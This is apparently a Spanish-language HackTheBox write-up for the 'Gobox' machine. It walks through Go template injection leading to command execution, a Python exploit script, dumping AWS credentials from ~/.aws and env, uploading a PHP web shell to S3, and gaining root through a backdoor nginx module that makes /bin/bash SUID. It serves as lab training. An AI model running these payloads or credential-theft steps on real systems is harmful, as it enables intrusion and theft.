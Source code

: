 ```yaml
---
title: Gobox
date: 2022-07-31 13:25:30 +/-TTTT
categories: [HTB MACHINES, Linux]
tags: [sttigolang, aws, nginx, rootkitsofile]     # TAG names should always be lowercase
---
```



Vemos el puerto 80 y 8080, donde en el puerto 80 no encontramos nada interesante pero en el 8080 encontramos un login.

![imagen1](/assets/images/gobox.png)

![imagen2](/assets/images/gobox2.png)
En este punto vemos por medio de burpsuite que estamos en un servidor golang e intentamos un ssti.

![imagen3](/assets/images/gobox3.png)

![imagen4](/assets/images/gobox4.png)

Con un "{\{ . }\}" obtenemos un correo y una contraseña por lo que lo usamos en el login y dentro encontramos una función que nos permite mediante el input inyectar comandos.

```go
func (u User) DebugCmd (test string) string {
  ipp := strings.Split(test, " ")
  bin := strings.Join(ipp[:1], " ")
  args := strings.Join(ipp[1:], " ")
  if len(args) > 0{
    out, _ := exec.Command(bin, args).CombinedOutput()
    return string(out)
  } else {
    out, _ := exec.Command(bin).CombinedOutput()
    return string(out)
  }
}
```

Por el ssti nos permite llamar a objetos y funciones internas del código existente, por lo que pegamos la función y el comando para ejecutar comandos.

![imagen5](/assets/images/gobox5.png)

En este punto para práctica nos montamos un script en python para poder ejecutar comandos más facilmente.

```python
from pwn import *
import os, requests, pdb, sys, signal, time

def def_handler(sig, frame):
    print("\n\nSaliendo...\n\n")
    sys.exit(1)


#Variables Globales
main_url = "http://10.10.11.113:8080/forgot/"

#CTRL+C
signal.signal(signal.SIGINT, def_handler)


def makerequest(command):
    data_post = {
    'email':"test@{\{ .DebugCmd " %s " }\}" % command
    }
    
    r = requests.post(main_url, data=data_post)

    output = ((re.findall(r'Email Sent To:(.*)\s+<button class',r.text, re.DOTALL))[0].replace("\n\n\n             ","\n")).replace("test@","")

    print(output)
    
if __name__ == '__main__':
    while True:
        command = input(">")
        command = command.strip()
        makerequest(command)      

```

Al hacer un `hostname -i` vemos que se llama `aws` por lo que procedemo a aplicar comando en aws. Nos encontramos credenciales en `.aws` y en `env` para que podamos conectarnos en nuestra máquina.

```shell
>cat ~/.aws/credentials
 [default]
aws_access_key_id=SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz
aws_secret_access_key=SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz

>env
 HOSTNAME=aws
PWD=/opt/uhc
HOME=/root
AWS_SECRET_ACCESS_KEY=SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz
SHLVL=0
AWS_ACCESS_KEY_ID=SXBwc2VjIFdhcyBIZXJlIC0tIFVsdGltYXRlIEhhY2tpbmcgQ2hhbXBpb25zaGlwIC0gSGFja1RoZUJveCAtIEhhY2tpbmdFc3BvcnRz
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
DEBIAN_FRONTEND=noninteractive
```

Nos conectamos desde nuestra máquina

```shell
>aws s3 ls
 2022-09-30 05:32:15 website

>aws s3 ls s3://website
                            PRE css/
2022-09-30 05:32:16    1294778 bottom.png
2022-09-30 05:32:15     165551 header.png
2022-09-30 05:32:15          5 index.html
2022-09-30 05:32:15       1803 index.php
```

Dentro de index.html vemos que dice test y yendo hacia la página principal y poniendo index.html nos pone test, por lo que podríamos subir un archivo para ejecutar comando en php.

```php
<? "<pre> .  shell_exec($_REQUEST['cmd']) . "</pre>;
```

Mediante `base64` nos pasamos el contenido lo ponemos en la máquina víctima.

```shell
>aws s3 cp /tmp/reverse.php s3://website/reverse.php
upload: ../../tmp/reverse.php to s3://website/reverse.php
```

![imagen6](/assets/images/gobox6.png)

Nos entablamos una reverse shell y estamos dentro.

```shell
www-data@gobox:/etc/nginx/modules-enabled$ ls
50-backdoor.conf	      50-mod-http-xslt-filter.conf  50-mod-stream.conf
50-mod-http-image-filter.conf  50-mod-mail.conf
www-data@gobox:/etc/nginx/modules-enabled$ cat 50-backdoor.conf 
load_module modules/ngx_http_execute_module.so;
www-data@gobox:/etc/nginx/modules-enabled$ find / -name ngx_http_execute_module.so 2>/dev/null
/usr/lib/nginx/modules/ngx_http_execute_module.so
www-data@gobox:/etc/nginx/modules-enabled$ strings /usr/lib/nginx/modules/ngx_http_execute_module.so | grep ".run"
ippsec.run
```
Vemos que la máquina había sido vulnerada antes, y tiene un archivo `ngx_http_execute_module.so` buscando en google se ve que se puede ejecutar comandos con curl, pero al hacer un strings al archivo
observamos que hay un `ippsec.run` que sustituye al system.run en curl.

```shell
www-data@gobox:/etc/nginx/modules-enabled$ curl 'http://localhost:8000/?ippsec.run[whoami]'
root
www-data@gobox:/etc/nginx/modules-enabled$ curl "http://localhost:8000/?ippsec.run[chmod%204755%20%2fbin%2fbash]"
curl: (52) Empty reply from server
www-data@gobox:/etc/nginx/modules-enabled$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```
Hacemos un bash -p y estamos dentro como root.
